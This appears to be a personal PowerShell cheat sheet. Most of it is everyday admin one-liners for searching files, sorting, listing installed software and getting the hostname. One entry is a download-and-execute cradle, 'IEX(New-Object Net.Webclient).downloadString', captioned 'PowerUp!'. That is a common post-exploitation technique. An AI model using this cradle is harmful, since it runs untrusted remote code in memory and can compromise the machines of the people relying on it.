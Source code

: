 # PowerShell Conveniences

### Switches

`-NoExit` - Keeps ps window open; useful for debugging macros that are ran when a document is open

### Commands

Gets installed software, version, and install date.
```PowerShell
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```

Web requests (if one doesnt work, try the other). PowerUp!
```PowerShell
Invoke-WebRequest -Uri <target uri> -Method Get -Outfile <whatevs>.ps1 #IWR
powershell IEX(New-Object Net.Webclient).downloadString("<target uri>") #Invoke-Expression
```

"which" nix-style output.
```powershell
Get-Command <your command> | Select-Object -ExpandProperty Definition
```

"grep"-like with x number of lines before or after.
```powershell
<some_cmd> | Select-String -Pattern "whatever" -Context 2,4
# print 2 lines before "whatever" and 4 lines after "whatever" (including "whatever")
```

sort uniq
```powershell
Get-Content file.txt | Sort-Object -unique
```
Find a file recursively
```powershell
gci -recurse . | select fullname
```
Find a string within a file recursively
```powershell
ls -recurse | Select-String "google" | Select Path, LineNumber | Format-List
#alternatively
ls c:\temp\searchfolder -recurse | Select-String "google" | Select Path, LineNumber | Format-List
```
Get FQDN
```powershell
[System.Net.Dns]::GetHostByName($env:computerName)
```
